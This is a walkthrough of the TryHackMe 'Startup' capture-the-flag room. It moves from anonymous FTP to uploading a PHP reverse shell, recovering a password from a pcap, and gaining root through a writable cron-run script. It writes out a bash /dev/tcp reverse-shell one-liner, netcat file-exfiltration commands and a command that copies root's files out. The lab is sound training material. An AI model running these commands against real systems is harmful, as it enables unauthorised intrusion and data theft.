# [Startup TryHackMe Writeup/Walkthrough][1]
Abuse traditional vulnerabilities via untraditional means.


#### Scan the machine.
> If you are unsure how to tackle this, I recommend checking out the [Nmap Tutorials by Hack Hunt][2].

`nmap -sV -sC -Pn <IP>`

```
Starting Nmap 7.91 ( https://nmap.org )
Nmap scan report for 10.10.200.192
Host is up (0.076s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.8.150.100
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed.
Nmap done: 1 IP address (1 host up) scanned in 11.32 seconds
```

Looks like we have three ports open `21, 22, 80`.

We have `ftp` anonymous login allowed and we see there are two files and a directory with read/write/execute permission.



Get the `important.jpg` and `notice.txt` into our PC and check what it says.

```
ftp> get important.jpg
local: important.jpg remote: important.jpg
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for important.jpg (251631 bytes).
226 Transfer complete.
251631 bytes received in 0.30 secs (824.6558 kB/s)

ftp> get notice.txt
local: notice.txt remote: notice.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for notice.txt (208 bytes).
226 Transfer complete.
208 bytes received in 0.00 secs (906.8080 kB/s)
```

Now that we have the file, check the content of `notice.txt` file.

> Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I don't know who it is, but Maya is looking pretty sus.

Hmm, interesting so this share is accessible from via website. Looks like we have a username `maya`.

I did a `gobuster` scan. CMD -> `gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt`

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                   http://10.10.200.192
[+] Method:                GET
[+] Threads:               10
[+] Wordlist:              /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes: 404
[+] User Agent:            gobuster/3.1.0
[+] Timeout:               10s
===============================================================
2021/05/24 16:44:03 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/files                (Status: 301) [Size: 314]
/index.html           (Status: 200) [Size: 808]
/server-status        (Status: 403) [Size: 278]
===============================================================
```

Seems like the `files` folder is similar to the `FTP` anonymous login from the website and it has execute, write permission as well.

We can put the [php-reverse-shell.php][3] into this folder and execute it via website. Just change the `$ip` to your TryHackMe's IP and `$port` to `4444` or you can leave as it is. Once you make the change `put` this file into the server.



Once done with this, start a `netcat` listener. CMD -> `nc -lvnp 4444`

Go to the website `http://<IP>/file/ftp` and click on the file you copied into the server. You will have a reverse connection established.



First things first, let's make this shell a bit stable.

```
1. python3 -c 'import pty;pty.spwan("/bin/bash")'
2. Ctrl + Z
3. stty raw -echo; fg
```



We got the `recipe.txt` in the root directory.



There is a directory called `incidents`. Let's get the file `suspicious.pcapng` back into our system and check the content.

We can start a Python Server using `python3 -m http.server` and get the file into your PC by visiting `http://<IP>:8000`.



*Alternative method:*

- Client: `nc -lvnp 1234 > sus.pcapng`
- Server: `nc -lvnp <YOUR_IP> 1234 < suspicious.pcapng`

Once you have the file, open it with Wireshark.

Go to File > Export > Objects > HTTP



A reverse shell was initiated on the port `4444`. So we can filter the packets using `tcp.port == 4444`.

Right-Click on a packet > Follow > TCP Streams.



Seems like we have a password.



We can get the `user_flag` from here.



### Privilege Escalation

There is folder called `scripts`. Let's check the content.



This file is executing another file `/etc/print.sh`. Let's check the content.



This file has `read-write-execute` permission. So we can add the bash one linear reverse shell. We will append it to the file -> `echo "bash -i >& /dev/tcp/<YOUR_IP>/1234 0>&1" >> /etc/print.sh`


Start a listener -> `nc -lvnp 1234` and wait for a while, you will have a reverse connection.




*Alternative Method:*

You could just add a copy script instead of bash one linear. CMD -> `echo " cp /root/* /home/lennie; chmod 777 /home/lennie/* " >> /etc/print.sh`

Now, we have the root access. You know what to do next :stuck_out_tongue_winking_eye:



[1]: https://tryhackme.com/room/startup
[2]: https://blog.hackhunt.in/search/label/Nmap
[3]: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
